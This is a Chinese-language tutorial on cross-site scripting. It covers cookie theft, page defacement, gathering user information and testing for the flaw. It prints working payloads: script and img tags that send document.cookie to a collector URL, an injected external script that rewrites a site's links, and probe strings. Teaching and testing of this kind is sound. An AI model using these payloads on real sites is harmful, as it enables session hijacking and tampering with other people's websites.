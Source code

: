 ##### 利用xss窃取cookie方法
本地写一个xss_cookie.php页面，用于接收cookie。
![](/upload_image/20170531/3.png)
在存在xss漏洞的地方，插入以下代码，便可以将cookie发送到xss_cookie.php，并且将cookie参数传递进去，写入文件中。
![](/upload_image/20170531/4.png)
常用获取cookie的js代码(可自行扩展):
```bash
<img src="http://localhost/cspt/XSS_cookie.php?cookie='+document.cookie"></img>
<script>new Image().src="http://localhost/cspt/XSS/xss_cookie.php?cookie="+document.cookie;</script>
```
提交之后，本地cookie.txt文件中就会写入cookie值。
![](/upload_image/20170531/5.png)

#### 利用xss篡改网页
前提：网站必须存在存储型xss漏洞，并且会将结果返回到页面上。
这样我们就可以插入一段js代码，作用在于获取网站源码中的标签，然后修改其中的属性值，达到修改网页的效果。
实例：修改网站所有连接地址
本地编写一个test.js脚本，内容如下：
![](/upload_image/20170531/6.png)
将以下语句插入存在存储型xss漏洞的网站
```bash
<script type='text/javascript' src='http://localhost/cspt/XSS/test.js'></script>
```
可以发现存在该漏洞的网页上所有的链接都变成了www.google.com。

*注：javascript加载外部的代码文件可以是任意扩展名（无扩展名也可以）*

#### 利用xss获取用户信息
　　xss获取用户信息，运用最多的还是获取cookie信息，但除此之外，还可以获取用户浏览器版本、外网IP地址、浏览器安装的插件类型等等。以下列举了利用xss获取的客户端用户信息（包含但不仅限于以下几种）。

* alert(navigator.userAgent);读取userAgent内容
* alert(document.cookie);读取用户cookie内容
* 利用java环境，调用java Applet的接口获取客户端本地IP

*注：利用Xss漏洞能做的事有很多，前面已经列举了一些，这里便不对每一个都展开讲解，如需了解更多的xss漏洞内容，最好的方式还是看书。*

### Xss漏洞探测
前面介绍了一些xss漏洞的基础内容，那么如何去检测一个网站（某个点）是否存在xss漏洞呢？
#### xss探针
我们可以在测试xss的位置写入以下代码，查看页面源码，观察哪些代码被过滤或者转义。
```bash
'';!--"<XSS>=&{()}
```
xss探针可检测出网站有没有对xss漏洞做最基础的防御。
#### 基础xss语句
除了xss探针以外，我们也可以输入最简单的测试语句：
```bash
<script>alert(/xss/)</script>
```
如果插入的语句被原封不动的呈现在了浏览器中，那么说明了2个问题：
* 代码没有被过滤，说明存在xss
* 代码没有被执行，因为没有闭合类似textarea标签，可以查看下源码。
